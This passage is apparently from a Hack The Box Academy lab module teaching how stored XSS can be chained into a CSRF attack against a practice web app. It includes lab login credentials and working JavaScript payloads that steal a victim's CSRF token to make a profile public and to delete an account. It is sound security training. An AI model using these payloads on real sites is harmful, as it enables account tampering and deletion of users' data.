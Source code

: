 
```javascript
changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
```

The script snippet above is setting the Content-Type to _application/x-www-form-urlencoded_.

```javascript
changeReq.send('csrf='+token+'&action=change');
```

The script snippet above sends the request with one param called _csrf_ having the value of the _token_ variable, which is essentially the victim's CSRF token, and another parameter called _action_ with the value _change_. These are the two parameters that we noticed while inspecting the targeted request through Burp.

![image](https://academy.hackthebox.com/storage/modules/153/56.png)

Let us try to make a victim's profile public.

First, submit the full payload to the _Country_ field of Ela Stienen's profile and click "Save".

![image](https://academy.hackthebox.com/storage/modules/153/44.png)

Open a `New Private Window`, navigate to `http://minilab.htb.net` again and log in to the application using the credentials below:

- Email: goldenpeacock467
- Password: topcat

This is a user that has its profile "private." No "Share" functionality exists.

![image](https://academy.hackthebox.com/storage/modules/153/58.png)

Open a new tab and browse Ela Stienen's public profile by navigating to the link below.

`http://minilab.htb.net/profile?email=ela.stienen@example.com`

This is what the victim will come across.

![image](https://academy.hackthebox.com/storage/modules/153/46.png)

Now, if you go back to the victim's usual profile page and refresh/reload the page, you should see that his profile became "public" (notice the "Share" button that appeared).

![image](https://academy.hackthebox.com/storage/modules/153/59.png)

You just executed a CSRF attack through XSS, bypassing the same origin/same site protections in place!

**Extra practice**: Adapt the XSS payload above to delete @goldenpeacock467's account through CSRF.

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/delete/mhmdth.rdyy@example.com',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/delete', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token);
};
</script>
```

---